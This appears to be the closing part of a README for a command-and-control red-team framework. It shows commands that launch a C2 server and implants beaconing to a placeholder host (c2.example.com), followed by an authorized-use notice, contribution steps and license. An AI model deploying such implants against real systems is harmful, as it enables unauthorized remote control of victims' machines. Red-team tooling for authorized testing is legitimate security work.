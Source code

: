 ### Advanced Configuration
```bash
# Server with custom config
cargo run --bin server -- --config custom.toml

# Implant with HTTPS and custom timing
./main -h c2.example.com -p 443 --https -s 10 -j 30

# Enterprise implant with custom key
./enterprise_implant --host c2.example.com --key <base64_key>
```

## ⚠️ Legal & Ethical Use

This framework is designed for **authorized security testing only**:

- ✅ Penetration testing with written authorization
- ✅ Red team exercises within your organization  
- ✅ Security research in controlled environments
- ✅ Educational purposes in academic settings

**DO NOT USE FOR:**
- ❌ Unauthorized access to systems
- ❌ Malicious activities
- ❌ Violations of local/international law

Users are responsible for ensuring compliance with all applicable laws and regulations.

## 🤝 Contributing

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

### Development Guidelines
- Follow language-specific style guides
- Add tests for new functionality
- Update documentation for changes
- Ensure cross-platform compatibility

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- OpenSSL Project for cryptographic libraries
- Rust Community for excellent HTTP and crypto crates
- Nim Community for cross-platform capabilities
- Security Research Community for techniques and methodologies
